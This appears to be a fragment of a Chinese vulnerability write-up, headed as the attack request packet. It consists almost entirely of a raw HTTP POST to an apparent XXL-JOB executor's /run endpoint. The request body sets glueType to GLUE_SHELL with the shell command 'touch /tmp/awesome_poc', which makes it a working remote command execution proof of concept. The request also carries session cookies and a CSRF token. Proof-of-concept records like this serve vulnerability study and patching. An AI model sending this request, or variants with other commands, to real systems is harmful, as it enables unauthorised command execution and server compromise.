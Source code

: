 **攻击请求包如下：**

```
POST /run HTTP/1.1
Host: 192.168.81.157:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Length: 365
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; X-JMS-ORG=00000000-0000-0000-0000-000000000002; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FDOFI1eU1GM1NTZGhySVdONm42UHNRV3ZYcgpjTXZKMXNaam55aVNTTjlvaGlqTHFXUHFZMkI4dzNYdkM0RTRTdnl2eTkxT0xyWVVrVG52ckhTK2c2aUhLQ1RZClRucXR5T0lSN3BpaGlZSTFObmxYY25KWVpMcjhXTXowYVlrdVViSHJVNFBhQWQ4aFlzRmJvbGwzMlVBeGROSSsKblk5cU1LWnluUGFYT3M2aDFRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_session_expire=close; jms_csrftoken=qMzSigM9M0moTYJM51O87LcR1ufq0uyZ; jms_sessionid=ax938kdr2yc855mefi7sz53t18ibnefj; activeTab=Detail
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/awesome_poc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![Untitled](image/Untitled%202.png)
